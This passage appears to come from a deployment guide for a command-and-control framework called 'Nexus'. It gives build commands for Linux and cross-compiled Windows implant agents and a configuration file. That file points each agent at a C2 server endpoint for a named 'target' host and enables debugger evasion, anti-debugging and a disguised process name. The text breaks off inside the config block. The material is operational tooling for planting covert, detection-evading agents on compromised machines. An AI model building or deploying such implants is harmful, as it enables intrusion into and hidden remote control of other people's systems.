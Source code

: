 **Expected Result**: Successful TLS connection and gRPC service list

---

## Phase 5: Agent Deployment

### Step 1: Build Agents

#### Build for Linux
```bash
# Build Linux agent
cargo build --release --target x86_64-unknown-linux-gnu --bin nexus-agent

# Verify binary
file target/x86_64-unknown-linux-gnu/release/nexus-agent
```

#### Build for Windows (Cross-compilation)
```bash
# Install Windows target
rustup target add x86_64-pc-windows-gnu

# Install cross-compilation tools
sudo apt install -y gcc-mingw-w64-x86-64

# Build Windows agent
cargo build --release --target x86_64-pc-windows-gnu --bin nexus-agent

# Verify binary
file target/x86_64-pc-windows-gnu/release/nexus-agent.exe
```

### Step 2: Agent Configuration

#### Create Linux Agent Config
```bash
# Create Linux agent configuration
cat > config/agent-linux.toml << 'EOF'
[server]
endpoint = "https://c2.yourdomain.com:8443"
verify_tls = true
retry_interval = 30
max_retries = 5

[agent]
agent_id = "linux-agent-001"
hostname = "target-linux-01"
platform = "linux"
arch = "x86_64"

[communication]
protocol = "grpc"
compression = true
encryption = true
heartbeat_interval = 60

[security]
evasion_enabled = true
anti_debug = true
process_name = "system_service"

[logging]
level = "warn"
file_output = false
```